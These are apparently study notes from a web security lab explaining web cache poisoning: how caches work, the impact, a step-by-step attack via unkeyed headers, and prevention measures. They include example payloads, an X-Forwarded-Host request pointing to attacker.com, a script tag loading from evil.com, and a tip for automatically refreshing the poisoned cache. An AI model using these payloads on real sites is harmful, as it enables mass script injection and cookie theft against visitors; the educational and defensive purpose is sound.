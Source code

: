 # Web cache poisoning
https://0a270004048ee78780dd6758004400ae.web-security-academy.net/





# 🛡 Web Cache Poisoning

## 1️⃣ What is Web Cache Poisoning?
**Web cache poisoning** is an attack where an attacker manipulates a web server’s cache to store a **malicious HTTP response**.  
When other users request the same resource, they receive the **poisoned (malicious) response** instead of the intended one.

The attacker’s goal: **Serve malicious content to many users** via the cache without directly targeting each one.

---

## 2️⃣ How Does a Web Cache Work?
A **web cache** stores HTTP responses so that future requests for the same resource can be served quickly without re-fetching from the origin server.  
Types of caches:
- **Browser Cache** – Stored on the client side.
- **CDN / Reverse Proxy Cache** – Stored at network level (e.g., Cloudflare, Akamai).
- **Server Cache** – Stored on the web server.

**Basic process:**
1. Client sends HTTP request.
2. Cache checks if a valid cached copy exists.
3. If yes → serve cached response.  
   If no → forward request to server → store server’s response in cache → serve to client.

---

## 3️⃣ Impact of a Web Cache Poisoning Attack
- **Widespread XSS** – Inject JavaScript into cached responses.
- **Defacement** – Alter content displayed to all users.
- **Phishing** – Redirect cached pages to malicious sites.
- **Credential Theft** – Inject scripts to steal cookies/session tokens.
- **Service Disruption** – Deliver broken or malicious responses to legitimate users.

---

## 4️⃣ Constructing a Web Cache Poisoning Attack

### Step 1: Identify and Evaluate Unkeyed Inputs
- **Unkeyed inputs** are parts of the HTTP request that affect the response **but are not part of the cache key**.
- Example: HTTP headers like `X-Forwarded-Host` or query parameters ignored by the cache.
- **Why it matters:** If the cache ignores an input but the server processes it, you can control the cached output.


### Step 2: Param Miner
- Use **Burp Suite’s Param Miner extension** to automatically guess:
  - Hidden parameters
  - Non-standard HTTP headers
  - Inputs that may influence server behavior but not the cache key.
- This helps find cache poisoning vectors.

### Step 3: Elicit a Harmful Response from the Back-End Server
- Manipulate the unkeyed input to:
  - Trigger **JavaScript injection** (for XSS)
  - Add **malicious redirects**
  - Alter HTML responses
- Example:
  ```http
  GET / HTTP/1.1
  Host: victim.com
  X-Forwarded-Host: attacker.com
  ```
- Possible payloads:
	- Inject HTML/JS (<script>alert(1)</script>)
	- Change redirect URLs
	- Alter API responses

### Step 4: Get the Response Cached
- Ensure the poisoned response is cacheable:
	- Cache-Control should allow caching (no no-store or private).
	- Sometimes removing cookies (Set-Cookie) makes it cacheable.
- Verify:
	- Send multiple requests → see if same response is served without origin server hit.
- Tip: Use Burp’s Repeater to replay and check if response changes between requests.


### Step 5: Deliver the Poisoned Cache to Victims
- Once the malicious response is cached:
	- Anyone requesting the same URL will get the poisoned content.
	- Works on CDN edges globally if CDN caching is enabled.
- Example:
	- Inject <script src="https://evil.com/x.js"></script> into homepage.
	- Cached at CDN → All visitors worldwide load attacker’s script.

### Step 6: Monitor Cache Behavior
Determine:
- Cache expiry time (`max-age`, `Expires` header).
- Whether partial requests (query params) map to the same cache entry.
- If multiple caches are in the chain (browser → CDN → reverse proxy).

**Goal:** Maximize reach by understanding cache hierarchy.

### Step 7: Maintain or Refresh the Poison
Some caches may expire quickly.

To persist the attack:
- Periodically resend the poisoning request before expiry.
- Automate refresh with a script or scheduler.

**Note:** This can keep the attack live indefinitely until detected.

## 5️⃣ Exploiting Web Cache Poisoning Vulnerabilities
Once cached, the poisoned content:
- Affects all users who request that cached resource.
- Can persist until cache expiry or manual purge.

**Example scenario:**
1. Attacker injects: into homepage
   ```html
   <script src="https://evil.com/x.js"></script>
   ```
2. Cache stores this malicious page.
3. All visitors load attacker’s script.

### 6️⃣ How to Prevent Web Cache Poisoning Vulnerabilities

1. Normalize Requests
	- Ensure cache and server process requests identically.
	- Include all user-controllable inputs in cache key.
	- Avoid unkeyed input issues.

2. Sanitize User Input
	- Never reflect unsanitized data in cached responses.

3. Set Strict Caching Rules
	- Use Cache-Control: no-store for dynamic/user-specific content.

4. Whitelist Headers and Parameters
	- Reject or ignore unexpected ones.

5. Security Testing
	- Test with tools like Burp Suite and Param Miner.
	- simulate poisoning scenarios in staging environments.
